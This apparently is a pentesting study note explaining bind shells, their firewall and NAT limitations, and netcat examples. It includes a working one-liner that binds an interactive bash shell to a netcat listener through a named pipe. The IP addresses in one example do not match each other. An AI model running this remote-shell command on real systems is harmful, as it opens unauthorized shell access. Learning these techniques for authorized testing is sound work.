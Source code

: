 # Bind shell
With a bind shell, the target system has a listener started and awaits a connection from a pentester's system (attack box).

## Challanges with Bind Shells:
- There would have to be a listener already started on the target.
- If there is no listener started, we would need to find a way to make this happen.
- Admins typically configure strict incoming firewall rules and NAT (with PAT implementation) on the edge of the network (public-facing), so we would need to be on the internal network already.
- Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.

## Example

### Send something with netcat
```shell
# Target starting Netcat listener
nc -lvnp 7777

# Attacker connecting to the target
nc -nv 10.129.41.200 7777

#we will see 
# on Attacker Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
# on Target Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

### Establishing a Basic Bind Shell with Netcat
```shell
# on target Binding a Bash shell to the TCP session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f

# Connecting to bind shell on target
nc -nv 10.129.201.134 7777
```